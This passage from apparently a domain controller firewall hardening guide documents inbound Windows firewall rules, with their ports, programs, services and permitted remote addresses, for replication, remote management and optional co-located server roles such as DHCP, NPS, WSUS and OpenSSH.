can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Remote Volume Management - Virtual Disk Service (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RVM-VDS-In-TCP |
| Group       | Remote Volume Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\vds.exe` |
| Service     | `vds` |
| Description | Inbound rule for the Remote Volume Management - Virtual Disk Service to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableDiskManagement](#enablediskmanagement) setting.
The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Remote Volume Management - Virtual Disk Service Loader (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RVM-VDSLDR-In-TCP |
| Group       | Remote Volume Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\vdsldr.exe` |
| Description | Inbound rule for the Remote Volume Management - Virtual Disk Service Loader to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableDiskManagement](#enablediskmanagement) setting.
The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Windows Defender Firewall Remote Management (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteFwAdmin-In-TCP |
| Group       | Windows Defender Firewall Remote Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\svchost.exe` |
| Service     | `policyagent` |
| Description | Inbound rule for the Windows Defender Firewall to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableFirewallManagement](#enablefirewallmanagement) setting.
The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

### Replication Traffic

#### DFS Replication (RPC-In)

| Property    | Value |
|-------------|----------------------------------------------------------|
| Name        | DFSR-DFSRSvc-In-TCP |
| Group       | DFS Replication |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\dfsrs.exe` |
| Service     | `Dfsr` |
| Description | Inbound rule to allow DFS Replication RPC traffic. |
| Remote Addresses | [Domain Controllers](#domaincontrolleraddresses) |

This protocol uses a dynamic RPC port by default, but it can be [reconfigured to use a static one](#dfsrstaticport).

#### File Replication (RPC)

| Property    | Value |
|-------------|----------------------------------------------------------|
| Name        | NTFRS-NTFRSSvc-In-TCP |
| Group       | File Replication |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\NTFRS.exe` |
| Service     | `NTFRS` |
| Description | Inbound rule to allow File Replication RPC traffic. |
| Remote Addresses | [Domain Controllers](#domaincontrolleraddresses) |

This protocol uses a dynamic RPC port by default, but it can be [reconfigured to use a static one](#frsstaticport).

### Additional Server Roles and Features

#### Server Role Co-Location

As a security best-practice, it is recommended not to deploy additional server roles on domain controller servers.
Unfortunately, real-world environments do not always follow this recommendation and domain controllers
often serve as branch office DHCP and RADIUS servers as well. This chapter therefore contains a list of optional
firewall rules that can be enabled to support such scenarios.

For now, the following Windows Server roles and features are covered:

- [Windows Internet Naming Service (WINS)](#windows-internet-naming-service-wins-tcp-in)
- [Dynamic Host Configuration Protocol (DHCP) Server](#dhcp-server-v4-udp-in)
- [Network Policy Server (NPS)](#network-policy-server-legacy-radius-authentication---udp-in)
- [Web Server (IIS)](#world-wide-web-services-http-traffic-in) (highly discouraged)
- [Windows Deployment Services (WDS)](#windows-deployment-services-udp-in)
- [Key Management Service (KMS)](#key-management-service-tcp-in)
- [File Server Resource Manager (FSRM)](#remote-file-server-resource-manager-management---fsrm-service-rpc-in)
- [Print Spooler](#file-and-printer-sharing-spooler-service---rpc) (highly discouraged)
- [Windows Server Update Services (WSUS)](#windows-server-update-services-http-in)
- [OpenSSH SSH Server](#openssh-ssh-server-sshd)

#### Windows Internet Naming Service (WINS) (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WINS-Service-In-TCP |
| Group       | Windows Internet Naming Service (WINS) |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 42 |
| Program     | `%SystemRoot%\System32\wins.exe` |
| Service     | `WINS` |
| Description | Inbound rule for the Windows Internet Naming Service to allow WINS requests. [TCP 42] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableWINS](#enablewins) setting.

#### Windows Internet Naming Service (WINS) (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WINS-Service-In-UDP |
| Group       | Windows Internet Naming Service (WINS) |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 42 |
| Program     | `%SystemRoot%\System32\wins.exe` |
| Service     | `WINS` |
| Description | Inbound rule for the Windows Internet Naming Service to allow WINS requests. [UDP 42] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableWINS](#enablewins) setting.

#### Windows Internet Naming Service (WINS) - Remote Management (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WINS-Service-In-RPC |
| Group       | Windows Internet Naming Service (WINS) - Remote Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\System32\wins.exe` |
| Service     | `WINS` |
| Description | Inbound rule for the Windows Internet Naming Service to allow remote management via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableWINS](#enablewins) setting. The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### DHCP Server v4 (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | Microsoft-Windows-DHCP-ClientSvc-DHCPv4-In |
| Group       | DHCP Server |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 67 |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `dhcpserver` |
| Description | An inbound rule to allow traffic to the IPv4 Dynamic Host Control Protocol Server. [UDP 67] |
| Remote Addresses | Any |

This rule is governed by the [EnableDhcpServer](#enabledhcpserver) setting.

#### DHCP Server v4 (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | Microsoft-Windows-DHCP-SrvSvc-DHCPv4-In |
| Group       | DHCP Server |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 68 |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `dhcpserver` |
| Description | An inbound rule to allow traffic so that rogue detection works in V4. [UDP 68] |
| Remote Addresses | Any |

This rule is governed by the [EnableDhcpServer](#enabledhcpserver) setting.

#### DHCP Server v6 (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | Microsoft-Windows-DHCP-SrvSvc-DHCPv6-In |
| Group       | DHCP Server |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 546 |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `dhcpserver` |
| Description | An inbound rule to allow traffic so that rogue detection works in V6. [UDP 546] |
| Remote Addresses | Any |

This rule is governed by the [EnableDhcpServer](#enabledhcpserver) setting.

#### DHCP Server v6 (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | Microsoft-Windows-DHCP-ClientSvc-DHCPv6-In |
| Group       | DHCP Server |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 547 |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `dhcpserver` |
| Description | An inbound rule to allow traffic to the IPv6 Dynamic Host Control Protocol Server. [UDP 547] |
| Remote Addresses | Any |

This rule is governed by the [EnableDhcpServer](#enabledhcpserver) setting.

#### DHCP Server Failover (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | Microsoft-Windows-DHCP-Failover-TCP-In |
| Group       | DHCP Server Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 647 |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `dhcpserver` |
| Description | An inbound rule to allow DHCP failover messages to the IPv4 Dynamic Host Configuration Protocol Server. [TCP 647] |
| Remote Addresses | [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableDhcpServer](#enabledhcpserver) setting.

If the DHCP server role is co-located with the domain controller role, it is highly probable that other DCs
are configured in the same way. It would therefore make sense to allow DHCP failover between DCs.

#### DHCP Server (RPC-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | Microsoft-Windows-DHCP-ClientSvc-RPC-TCP-In |
| Group       | DHCP Server Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `dhcpserver` |
| Description | An inbound rule to allow traffic to allow RPC traffic for DHCP Server management. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableDhcpServer](#enabledhcpserver) setting. The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Network Policy Server (Legacy RADIUS Authentication - UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | NPS-NPSSvc-In-UDP-1645 |
| Group       | Network Policy Server |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 1645 |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `ias` |
| Description | Inbound rule to allow Network Policy Server to receive RADIUS Authentication requests. [UDP 1645] |
| Remote Addresses | [RADIUS Clients](#radiusclientaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableNPS](#enablenps) setting.

#### Network Policy Server (Legacy RADIUS Accounting - UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | NPS-NPSSvc-In-UDP-1646 |
| Group       | Network Policy Server |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 1646 |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `ias` |
| Description | Inbound rule to allow Network Policy Server to receive RADIUS Accounting requests. [UDP 1646] |
| Remote Addresses | [RADIUS Clients](#radiusclientaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableNPS](#enablenps) setting.

#### Network Policy Server (RADIUS Authentication - UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | NPS-NPSSvc-In-UDP-1812 |
| Group       | Network Policy Server |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 1812 |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `ias` |
| Description | Inbound rule to allow Network Policy Server to receive RADIUS Authentication requests. [UDP 1812] |
| Remote Addresses | [RADIUS Clients](#radiusclientaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableNPS](#enablenps) setting.

#### Network Policy Server (RADIUS Accounting - UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | NPS-NPSSvc-In-UDP-1813 |
| Group       | Network Policy Server |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 1813 |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `ias` |
| Description | Inbound rule to allow Network Policy Server to receive RADIUS Accounting requests. [UDP 1813] |
| Remote Addresses | [RADIUS Clients](#radiusclientaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableNPS](#enablenps) setting.

#### Network Policy Server (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | NPS-NPSSvc-In-RPC |
| Group       | Network Policy Server |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\system32\iashost.exe` |
| Description | Inbound rule for the Network Policy Server to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableNPS](#enablenps) setting. The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### World Wide Web Services (HTTP Traffic-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | IIS-WebServerRole-HTTP-In-TCP |
| Group       | World Wide Web Services (HTTP) |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 80 |
| Program     | `System` |
| Description | An inbound rule to allow HTTP traffic for Internet Information Services (IIS) [TCP 80] |
| Remote Addresses | Any |

This rule is governed by the [EnableWebServer](#enablewebserver) setting.

#### World Wide Web Services (HTTPS Traffic-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | IIS-WebServerRole-HTTPS-In-TCP |
| Group       | Secure World Wide Web Services (HTTPS) |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 443 |
| Program     | `System` |
| Description | An inbound rule to allow HTTPS traffic for Internet Information Services (IIS) [TCP 443] |
| Remote Addresses | Any |

This rule is governed by the [EnableWebServer](#enablewebserver) setting.

#### Windows Deployment Services (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WDS-WdsServer-In-UDP |
| Group       | Windows Deployment Services |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | Any |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `WdsServer` |
| Description | Inbound rule for Windows Deployment Services to allow UDP traffic. |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableWDS](#enablewds) setting.

The WDS service listens on the following UDP ports by default:

| Port | Description |
|------|-------------|
| 67/UDP | DHCP Server (Required if options 66 and 67 are not sent by a standalone DHCP server) |
| 68/UDP | DHCP Client (Required for DHCP server authorization) |
| 69/UDP |TFTP |
| 4011/UDP | DHCP Proxy |

#### Windows Deployment Services (RPC-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WDS-RPC-In-TCP |
| Group       | Windows Deployment Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `WdsServer` |
| Description | Inbound rule for Windows Deployment Services to allow RPC/TCP traffic. |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableWDS](#enablewds) setting. The WDS service uses port `5040/TCP` by default.

#### Key Management Service (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | SPPSVC-In-TCP |
| Group       | Key Management Service |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 1688 |
| Program     | `%SystemRoot%\system32\sppextcomobj.exe` |
| Service     | `sppsvc` |
| Description | Inbound rule for the Key Management Service to allow for machine counting and license compliance. [TCP 1688] |
| Remote Addresses | Any |

This rule is governed by the [EnableKMS](#enablekms) setting.

#### Remote File Server Resource Manager Management - FSRM Service (RPC-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | FSRM-SrmSvc-In (RPC) |
| Group       | Remote File Server Resource Manager Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `SrmSvc` |
| Description | Inbound rule for the File Server Resource Manager service to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableFSRMManagement](#enablefsrmmanagement) setting. The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Remote File Server Resource Manager Management - FSRM Reports Service (RPC-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | FSRM-SrmReports-In (RPC) |
| Group       | Remote File Server Resource Manager Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\system32\srmhost.exe` |
| Service     | `SrmReports` |
| Description | Inbound rule for the File Server Storage Reports Manager service to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableFSRMManagement](#enablefsrmmanagement) setting. The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### File and Printer Sharing (Spooler Service - RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | FPS-SpoolSvc-In-TCP |
| Group       | File and Printer Sharing |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\spoolsv.exe` |
| Service     | `Spooler` |
| Description | Inbound rule for File and Printer Sharing to allow the Print Spooler Service to communicate via TCP/RPC. |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnablePrintSpooler](#enableprintspooler) setting.

#### Windows Server Update Services (HTTP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WSUS-In-HTTP |
| Group       | Windows Server Update Services (WSUS) |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 8530 |
| Program     | `System` |
| Description | Inbound rule for Windows Server Update Services to allow HTTP traffic. [TCP 8530] |
| Remote Addresses | Any |

This rule is governed by the [EnableWSUS](#enablewsus) setting.

#### Windows Server Update Services (HTTPS-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WSUS-In-HTTPS |
| Group       | Windows Server Update Services (WSUS) |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 8531 |
| Program     | `System` |
| Description | Inbound rule for Windows Server Update Services to allow HTTPS traffic. [TCP 8531] |
| Remote Addresses | Any |

This rule is governed by the [EnableWSUS](#enablewsus) setting.

#### OpenSSH SSH Server (sshd)

| Property    | Value |
|-------------|----------------------------------------------------------|
| Name        | OpenSSH-Server-In-TCP |
| Group       | OpenSSH Server |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 22 |
| Program     | `%SystemRoot%\system32\OpenSSH\sshd.exe` |
| Description | Inbound rule for OpenSSH SSH Server (sshd) |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableOpenSSHServer](#enableopensshserver) setting. The scope of this rule can further
be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.
